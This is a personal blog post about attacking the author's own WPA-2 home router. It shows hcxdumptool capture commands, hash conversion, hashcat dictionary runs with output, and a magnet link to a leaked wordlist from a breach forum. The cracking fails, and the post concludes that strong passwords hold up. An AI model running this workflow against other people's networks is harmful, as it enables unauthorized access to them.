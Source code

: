```yaml
---
title: "Wifi Hacking"
date: 2022-07-12T16:30:43+01:00
tags:
    - Hacking
category: 
    - blog
keywords:
    - Hacking
    - Wifi
    - Security
comments: true
draft: false
---
```



## Prelude

Everywhere online, i have heard that wifi was insecure.

Posts talking about WEP and WPA being insecure. WPA-2 being better but still flawed.
I have decided to try and hack my own wifi router to see whether it really is insecure

### Setup

I am using the tp-link archer VR600 v2 as my router with WPA-2 wifi encryption.
I'll be executing my attack from my Arch Linux Laptop

## Hacking my own wifi

After looking around online, I've discovered the hashcat [cracking wpawpa2 wiki article](https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2)
and I'll be following along as a guide.

As I went along, I worked on a script for hacking my wifi to allow for easy re-execution

### Disabling wifi and and enabling the wifi snooper

```bash
#!/usr/bin/env bash

# Disable wifi
sudo systemctl stop wpa_supplicant
# start monitor tool
sudo hcxdumptool -i wlan0 -o dumpfile.pcapng --active_beacon --enable_status=15
# Start wifi
sudo systemctl start wpa_supplicant
```

Enabling wifi and scanning for packets was quite simple.
All you had to do, is install `hcxdumptool` and run the aforementioned commands.
It took roughly 10-15 mins till a `PMKID`or `EAPOL MESSAGE` packet was detected on the network

once the a packet has been found, you can extract the hash of your wpa2 wifi password.

```bash
# Convert traffic
hcxpcapngtool -o hash.hc22000 dumpfile.pcapng
```

The hash is a `WPA-PBKDF2-PMKID+EAPOL` according to the [hashcat wiki](https://hashcat.net/wiki/doku.php?id=example_hashes).

This hash would be vunrable to a veriety of different attack methods:

- Dictionary attack
- Brute-Force attack
- Rule-based attack

I will be attempting a dictionary attack as it would execute in the fastest time

### hashcracking attempt 1

After installing `hashcat` and `opencl` in accordance with [the arch wiki](https://wiki.archlinux.org/title/GPGPU)
I started my first attempt with cracking the hash.

I downloaded a simple [wordlist](https://wpa-sec.stanev.org/dict/cracked.txt.gz) and attempted my first crack
Unfortunatly, I immediately came across an error.

```bash
$ hashcat -m 22000 hash.hc22000 cracked.txt.gz

resulted in this error;
clBuildProgram(): 
    CL_OUT_OF_HOST_MEMORY * Device #1: Kernel /usr/share/hashcat/OpenCL/shared.cl build failed.
```

After an hour of frantic googling online, i finally decided to restart my system and it immediately worked. :grimacing:

```bash
$ hashcat
hashcat (v6.2.5) starting

...

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

...

Dictionary cache built:
* Filename..: ./cracked.txt.gz
* Passwords.: 368163
* Bytes.....: 3992189
* Keyspace..: 368163
* Runtime...: 0 secs

Approaching final keyspace - workload adjusted.

Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 22000 (WPA-PBKDF2-PMKID+EAPOL)
Hash.Target......: hash.hc22000
Time.Started.....: Tue Jul 12 18:20:18 2022 (9 secs)
Time.Estimated...: Tue Jul 12 18:20:27 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (./cracked.txt.gz)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    42026 H/s (0.48ms) @ Accel:16 Loops:32 Thr:32 Vec:1
Recovered........: 0/1 (0.00%) Digests
Progress.........: 368163/368163 (100.00%)
Rejected.........: 0/368163 (0.00%)
Restore.Point....: 368163/368163 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: kunanesenanuk -> leprechaun6
Hardware.Mon.#1..: N/A

...
```

Sadly this basic dictionary attack has failed. We ran though every word in the wordlsit and not a single word matched our password hash.
This suggests that a complicated password would be more secure than a simple password such as once which is on this relatively short wordlist.

### hashcracking attempt 2

After the unsuccessful dictionary attack, i decided to get a bigger and better wordlist.
I went with the [rockyou2021.txt from kys234 on RaidForums](magnet:?xt=urn:btih:JEQMEEFTBXT35RJ3GUTGXU7HP3HBU5P6&dn=rockyou2021.txt%20dictionary%20from%20kys234%20on%20RaidForums&tr=udp%3A%2F%2Ftracker.openbittorrent.com%3A6969%2Fannounce).
This is a massive overkill wordlist and after waiting hours for the download+decompressing.

Once finished, the wordlist was around 92GB and roughly 8 billion words long.

Rather than wait for a hashcat to go though the entire wordlist, i grep-ed the wordlist for my wifi password.
After 3 mins, the command resulted in nothing. This seams to show that my wifi password is secure.

## Conclusion

It seams to me that WPA-2 isnt actually as insecure as it would people online would lead you to believe.
As long as you have a secure enough password, it shouldnt be a simple processs hacking into someones WPA-2 wifi network.

Of course, ive only explored one wifi hacking method so far and im aware there are plenty of other methods. 
:)
